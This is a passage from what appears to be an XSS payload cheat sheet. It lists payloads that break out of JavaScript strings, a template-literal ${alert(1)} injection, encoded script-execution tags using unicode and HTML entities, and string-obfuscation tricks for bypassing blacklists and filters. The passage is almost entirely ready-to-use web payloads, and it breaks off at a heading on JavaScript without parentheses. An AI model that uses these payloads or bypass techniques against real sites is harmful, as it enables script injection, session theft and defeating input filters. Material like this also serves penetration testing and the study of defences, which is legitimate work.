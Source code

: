 ```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** **\`\`\`\`\`\`\`\`** . This is known as template literals as they allow to **embedded JS expressions** using `${ ... }` syntax.\
Therefore, if you find that your input is being **reflected** inside a JS string that is using backticks, you can abuse the syntax `${ ... }` to execute **arbitrary JS code**:

This can be **abused** using: `${alert(1)}`

### Encoded code execution

```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```

### JavaScript bypass blacklists techniques

#### Strings

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```

#### Space substitutions inside JS code

```javascript
<TAB>
/**/
```

#### JavaScript without parentheses
